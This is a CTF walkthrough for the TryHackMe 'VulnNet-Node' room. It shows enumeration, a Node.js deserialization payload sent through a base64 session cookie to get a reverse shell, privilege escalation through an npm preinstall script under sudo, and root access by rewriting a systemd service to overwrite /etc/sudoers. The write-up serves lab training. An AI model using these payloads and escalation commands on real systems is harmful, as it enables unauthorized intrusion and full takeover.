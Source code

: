 ```yaml
---

title: Walkthrough - VulnNET-Node
published: true
---
```


Tags: Linux, Web, Javascript, Privilege Escalation, NPM.
Description: After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?
Difficulty: Easy
URL: [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

* * *

## Notes

The name and Nmap gives us the clue this is a nodejs vuln

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```

- `gobuster dir -u http://10.10.136.21:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100`

Gobuster doesnt yeild much just shows us the login that we can find by visiting the website.

Checking the firefox inspector, the session cookie seems to base64.

![0xskar](/assets/vulnnet-node01.png)

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet-Node]
└─$ echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}           
```

Perhaps we are able to edit this cookie to give us access?

- encode `{"username":"Admin","isAdmin":true,"encoding": "utf-8"}` - `eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNBZG1pbiI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==`

Doesnt seem to do anything...

Going to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create a nodejs shell for our machine.

I have used this from the past to work with nodejs `_$$ND_FUNC$$_function(){codehere}()` and then modifying the code from [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and encodeing with base64 gets the server to send us a reverse shell.

```
{"rce":"_$$ND_FUNC$$_function(){eval(CODEHERE)}()"}
```

Encode to b64 and send through as the cookie to gain shell

```
efaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Using this we can privesc to serv-manage

- `echo '{"scripts": {"preinstall": "/bin/sh"}}' > exp/package.json`
- `sudo -u serv-manage npm -C /home/www/VulnNet-Node/exp/ --unsafe-perm i`

* * * 

## user.txt?

![0xskar](/assets/vulnnet-node02.png)

* * * 

## root.txt?

sudo -l shows us we can start and stop a service names vulnnet-auto.timer

```
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

We have permissions so we can edit this file to send us another reverse shell.

- `find / -name vulnnet* 2>/dev/null`
- `cat /etc/systemd/system/vulnnet-job.service`

This file executes df we have permissions to edit however so we can edit to give us root perms.

```
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```

Then we can swap to root and cat root.txt

```
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl stop vulnnet-auto.timer
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl daemon-reload
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl start vulnnet-auto.timer
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo -l
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: ALL
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ cat /root/root.txt
cat: /root/root.txt: Permission denied
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo su
root@vulnnet-node:/etc/systemd/system# cat /root/root.txt
```

* * * 


